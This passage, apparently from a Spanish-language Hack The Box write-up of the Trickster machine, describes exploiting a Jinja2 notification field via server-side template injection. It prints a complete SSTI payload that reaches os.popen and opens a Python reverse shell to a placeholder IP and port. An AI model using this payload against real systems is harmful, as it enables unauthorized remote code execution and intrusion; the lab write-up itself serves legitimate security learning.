 En el exploit de Python anterior, vimos la existencia de una flag llamada "*--notification*", identificamos en el pie del campo "*Notification Body*" que usa **Jinja2**, esto nos permite ejecutar ataques de tipo *SSTI* (*Server-Side Template Injection*), reutilizamos el payload del exploit, nos ponemos en escucha por el puerto 443 y pulsamos en "*Send test notification*":
```python

{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{ x()._module.__builtins__['__import__']('os').popen("python3 -c 'import os,pty,socket;s=socket.socket();s.connect((\"<IP>\",<PORT>));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn(\"/bin/bash\")'").read() }}{% endif %}{% endfor %}
```

![](../assets/img/trickster-hackthebox-writeup/8.png)
